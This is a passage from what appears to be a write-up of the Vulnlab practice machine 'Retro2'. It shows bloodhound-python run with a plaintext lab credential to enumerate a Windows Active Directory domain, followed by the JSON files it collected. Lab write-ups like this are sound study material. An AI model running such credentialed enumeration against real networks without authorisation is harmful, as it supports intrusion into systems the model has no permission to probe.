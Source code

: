 <img src="attachments/1adcb0ecf77fad699213a52891f155c8.png" />

We ran **bloodhound-python** again with the nameserver set to the machine's IP and were able to obtain the mapping.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2/bloodhound]
└─$ sudo bloodhound-python -u 'ldapreader' -p 'ppYaVcB5R' -d retro2.vl -ns 10.10.101.57 -c All

INFO: Found AD domain: retro2.vl
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (bln01.retro2.vl:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: bln01.retro2.vl
INFO: Found 27 users
INFO: Found 43 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: BLN01.retro2.vl
INFO: Done in 00M 44S


┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2/bloodhound]
└─$ ls
20241217225801_computers.json  20241217225801_containers.json  20241217225801_domains.json  20241217225801_gpos.json  20241217225801_groups.json  20241217225801_ous.json  20241217225801_users.json
```
